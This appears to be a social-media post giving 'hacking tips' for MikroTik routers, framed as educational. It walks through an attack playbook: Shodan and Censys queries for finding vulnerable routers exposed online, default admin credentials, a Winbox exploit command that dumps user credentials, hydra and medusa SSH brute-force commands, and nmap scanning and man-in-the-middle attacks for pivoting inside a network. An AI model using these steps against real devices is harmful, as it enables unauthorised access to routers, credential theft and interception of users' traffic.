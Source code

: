 ### 🔥 Hacking Tips for MikroTik & Network Exploitation 🔥

1️⃣ 🕵️ Hacking Tips for MikroTik & Network Exploitation

 • **Use Shodan, Censys, or Zoomeye with queries like:**
 ```
title:"MikroTik RouterOS"
http.favicon.hash:116323821
```
Target older versions (e.g., v6.48.6 or below) since they often have unpatched vulnerabilities.

2️⃣ 📡 **Exploit WebFig Misconfigurations**

 • Try accessing hidden admin panels using:
 ```
http://<target-ip>/webfig/#Quick_Set
http://<target-ip>/webfig/#Interfaces
```
 • If authentication is required, test for default credentials:
```
admin / (blank)
admin / admin
admin / password
```

3️⃣ 🎭 **Bypass Login with Cookie Manipulation**

 • Use Burp Suite or Tamper Data to check for:
 • Session hijacking possibilities
 • Weak cookie validation
 • Missing authentication headers

4️⃣ 🛠 **Exploit Winbox to Dump User Credentials**

 • Older versions are vulnerable to `Winbox Exploit` to dump credentials:

```
python winbox-exploit.py -t <target-ip>
```
• **Check if the MikroTik Dude service is exposed on port 8291 for remote access vulnerabilities.**

5️⃣ 🔑 **Bruteforce SSH/Telnet Login**

 • If SSH or Telnet is open, try bruteforcing credentials with:
 ```
hydra -l admin -P rockyou.txt ssh://<target-ip>
medusa -h <target-ip> -u admin -P passlist.txt -M ssh

```
6️⃣ 💣 **Check for Exploits in CVE Databases**

 • Search for public MikroTik vulnerabilities on:
 • Exploit-DB (searchsploit mikrotik)
 • CVE databases (CVE-2023-XXXX)
 • GitHub POCs (MikroTik exploit)

7️⃣ 🌐 **Pivot Through the Network**

 • Once inside, scan for internal assets:
 ```
nmap -sP 192.168.1.0/24
```
• Try man-in-the-middle attacks (MITM) on internal users using ettercap or MITMf.

⸻

⚠️ For educational purposes only! Always test responsibly and report vulnerabilities ethically! ⚠️

🚀 Join [@CyberSecPlayground](https://t.me/cybersecplayground) for more hacking techniques, private tools, and bug bounty tips!


> 📢 #BugBounty #CyberSecurity #Hacking #MikroTik #Pentesting #InfoSec #EthicalHacking #CyberSecPlayground
